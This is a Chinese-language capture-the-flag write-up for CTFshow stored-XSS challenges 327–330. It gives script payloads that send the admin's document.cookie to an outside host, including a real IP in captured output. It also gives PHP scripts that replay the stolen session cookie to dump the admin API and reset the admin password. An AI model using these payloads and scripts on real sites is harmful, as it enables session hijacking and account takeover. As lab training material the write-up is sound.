 ```yaml
---
{"dg-publish":true,"title":"CTFshow_XSS_存储型","dg-path":"安全/靶场/CTFshow_XSS_存储型.md","permalink":"/安全/靶场/CTFshow_XSS_存储型/","dgPassFrontmatter":true}
---
```


# WEB 327

![Pasted image 20240817091928.png](/img/user/picture/Pasted%20image%2020240817091928.png)
这个就是一个信息系统，这里发件人可以随便填，因为我们要获取管理员的cookie，所以我们这里收件人要填写admin

payload：
```
<body/onload=document.location.href="http://<ip>//get.php?cookie="+document.cookie;>
```
![Pasted image 20240817092645.png](/img/user/picture/Pasted%20image%2020240817092645.png)

![Pasted image 20240817092656.png](/img/user/picture/Pasted%20image%2020240817092656.png)

# WEB 328


![Pasted image 20240817092824.png](/img/user/picture/Pasted%20image%2020240817092824.png)
这里是一个网站登陆注册页面

也有一个用户账号密码后台管理员页面
![Pasted image 20240817092948.png](/img/user/picture/Pasted%20image%2020240817092948.png)
所以我们可以尝试将payload储存到账号密码中，所以就需要注册

这里需要用script标签
```
<script>document.location.href="http://<ip>/get.php?cookie="+document.cookie</script>
```
![Pasted image 20240817093333.png](/img/user/picture/Pasted%20image%2020240817093333.png)


![Pasted image 20240817093503.png](/img/user/picture/Pasted%20image%2020240817093503.png)
这边收到了很多cookie，并没有flag，我们尝试用这个cookie登陆管理员账号试一下
![Pasted image 20240817093655.png](/img/user/picture/Pasted%20image%2020240817093655.png)




# WEB 329-1

这一关和上一关很像，但是有一个区别就是能得到cookie但是还是访问不了页面
原因是，管理员访问了页面就退出了，相当于现在得到的最新cookie是管理员上一次用的cookie

然后wp的思路就是构造一个js代码，能把关键信息传到服务器上

我有一个想法，那就是能不能利用脚本来利用cookie来获取信息
这个方法确实可以，下面是简单记录

抓包查看发现每次获取信息都是这么一个数据包
![Pasted image 20240817152926.png](/img/user/picture/Pasted%20image%2020240817152926.png)
我们尝试构造一个php脚本，当他获取到cookie时，就去发送这个数据包，如果够快是可以获取到flag的

脚本代码如下：
```php
<?php

// 获取GET参数中的cookie值
$cookie = $_GET['cookie'];

// 初始化cURL会话
$ch = curl_init();

// 设置cURL选项
curl_setopt($ch, CURLOPT_URL, "http://69c414d5-a2d0-472d-92b1-ffbd14b75819.challenge.ctf.show/api/?page=1&limit=10");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true); // 返回数据而不是直接输出
curl_setopt($ch, CURLOPT_HTTPHEADER, [
    "Host: 69c414d5-a2d0-472d-92b1-ffbd14b75819.challenge.ctf.show",
    "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0",
    "Accept: application/json, text/javascript, */*; q=0.01",
    "Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
    "Accept-Encoding: gzip, deflate",
    "X-Requested-With: XMLHttpRequest",
    "Referer: http://69c414d5-a2d0-472d-92b1-ffbd14b75819.challenge.ctf.show/manager.php",
    "Cookie: {$cookie}",
    "DNT: 1",
    "Connection: close"
]);

// 接受压缩编码的数据
curl_setopt($ch, CURLOPT_ENCODING, ""); // 允许cURL自动解压缩响应内容

// 执行cURL请求并获取响应数据
$response = curl_exec($ch);

// 检查是否有错误
if ($response === false) {
    echo "cURL Error: " . curl_error($ch);
} else {
    // 保存响应数据到文件
    file_put_contents("response.txt", $response);
    echo "Response saved to response.txt";
}

// 关闭cURL会话
curl_close($ch);

?>

```

我们构造payload
```
<script>document.location.href="http://<ip>/a.php?cookie="+document.cookie</script>
```

获取到flag
![Pasted image 20240817153159.png](/img/user/picture/Pasted%20image%2020240817153159.png)
```txt
{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":4,"data":[{"username":"flag","password":"ctfshow{9fb8af80-8a64-4f83-85a0-f45b06274536}"},{"username":"admin","password":"ctfshowdacaiji"},{"username":"<script>document.location.href=\"http:\/\/47.120.30.170\/get.php?cookie=\"+document.cookie<\/script>","password":"123456"},{"username":"<script>document.location.href=\"http:\/\/47.120.30.170\/a.php?cookie=\"+document.cookie<\/script>","password":"123456"}]}
```



# WEB 329-2











# WEB 330

这一关多了修改密码的功能
![Pasted image 20240817165046.png](/img/user/picture/Pasted%20image%2020240817165046.png)


我们抓一下包看看
```http
GET /api/change.php?p=222 HTTP/1.1
Host: fe178b3d-6299-44a8-89a9-6d24e1caefa1.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://fe178b3d-6299-44a8-89a9-6d24e1caefa1.challenge.ctf.show/change.php
Cookie: PHPSESSID=rerdh3bri3im0dlq86ennri52l
DNT: 1
Connection: close
```
发现他要修改的密码在url中，而判断身份是用的cookie，所以我们可以尝试用管理员的cookie来修改管理员的密码

让我们稍微修改一下脚本
```php
<?php

// 获取GET参数中的cookie值
$cookie = $_GET['cookie'];

// 初始化cURL会话
$ch = curl_init();

// 设置cURL选项
curl_setopt($ch, CURLOPT_URL, "http://fe178b3d-6299-44a8-89a9-6d24e1caefa1.challenge.ctf.show/api/change.php?p=111");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true); // 返回数据而不是直接输出
curl_setopt($ch, CURLOPT_HTTPHEADER, [
    "Host: fe178b3d-6299-44a8-89a9-6d24e1caefa1.challenge.ctf.show",
    "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0",
    "Accept: */*",
    "Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
    "Accept-Encoding: gzip, deflate",
    "X-Requested-With: XMLHttpRequest",
    "Referer: http://fe178b3d-6299-44a8-89a9-6d24e1caefa1.challenge.ctf.show/change.php",
    "Cookie: {$cookie}",
    "DNT: 1",
    "Connection: close"
]);

// 接受压缩编码的数据
curl_setopt($ch, CURLOPT_ENCODING, ""); // 允许cURL自动解压缩响应内容

// 执行cURL请求并获取响应数据
$response = curl_exec($ch);

// 检查是否有错误
if ($response === false) {
    echo "cURL Error: " . curl_error($ch);
} else {
    // 保存响应数据到文件
    file_put_contents("response.txt", $response);
    //echo "Response saved to response.txt";
}

// 关闭cURL会话
curl_close($ch);

?>

```
接收到信息，表明admin密码已经被修改为111
![Pasted image 20240817170158.png](/img/user/picture/Pasted%20image%2020240817170158.png)


尝试登陆

获得flag
![Pasted image 20240817170111.png](/img/user/picture/Pasted%20image%2020240817170111.png)






